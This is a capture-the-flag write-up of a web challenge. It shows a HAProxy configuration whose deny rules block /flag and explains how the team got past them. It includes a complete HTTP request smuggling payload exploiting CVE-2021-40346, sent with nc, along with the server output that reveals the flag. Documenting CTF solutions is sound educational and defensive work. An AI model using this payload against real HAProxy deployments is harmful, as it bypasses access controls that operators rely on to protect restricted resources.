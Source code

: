 # Door (un)Locked
* Category: Web
* 100 Points
* Solved by the JCTF Team

## Description

> Some researchers started deploying a website for their CTF, but something went wrong with the defined policies when trying to hide the flags.
> Can you find the weak link?

The following file was attached (`ha.cfg`):

```
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000
```

## Solution

The attached website contains nothing interesting:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Door_(un)Locked]
└─$ curl -s http://door-unlocked.chal.intentsummit.org:8000/ | tail -15
  <div class="w3-display-topleft w3-padding-large w3-xlarge">
    Door (un)Locked
  </div>
  <div class="w3-display-middle">
    <h1 class="w3-jumbo w3-animate-top">COMING SOON</h1>
    <hr class="w3-border-grey" style="margin:auto;width:40%">
    <p class="w3-large w3-center">1 days left</p>
  </div>
  <div class="w3-display-bottomleft w3-padding-large">
    Powered by <a href="https://www.w3schools.com/w3css/default.asp" target="_blank">w3.css</a>
  </div>
</div>

</body>
</html>
```

But if we try to access `/flag`, we can't, due to the `http-request deny` rules:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Door_(un)Locked]
└─$ curl -s http://door-unlocked.chal.intentsummit.org:8000/flag
<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```

The syntax of the attached file looks like a HAProxy configuration. Researching known vulnerabilities, we come across [Critical Vulnerability in HAProxy (CVE-2021-40346): Integer Overflow Enables HTTP Smuggling](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/). The solution is pretty much to follow the blog post and utilize the attack for our case:

```
POST / HTTP/1.1
Host: door-unlocked.chal.intentsummit.org:8000
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 22

GET /flag HTTP/1.1
h:GET / HTTP/1.1
Host: door-unlocked.chal.intentsummit.org:8000


```

Running it, we get:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Door_(un)Locked]
└─$ cat payload.txt| nc door-unlocked.chal.intentsummit.org 8000
HTTP/1.1 405 Not Allowed
server: nginx/1.21.4
date: Sat, 13 Nov 2021 19:01:41 GMT
content-type: text/html
content-length: 157

<html>
<head><title>405 Not Allowed</title></head>
<body>
<center><h1>405 Not Allowed</h1></center>
<hr><center>nginx/1.21.4</center>
</body>
</html>
HTTP/1.1 200 OK
server: nginx/1.21.4
date: Sat, 13 Nov 2021 19:01:41 GMT
content-type: text/html
content-length: 29
last-modified: Fri, 12 Nov 2021 20:51:37 GMT
etag: "618ed3d9-1d"
accept-ranges: bytes

INTENT{Smuggl3_w1th_H4_Pr0xy}
```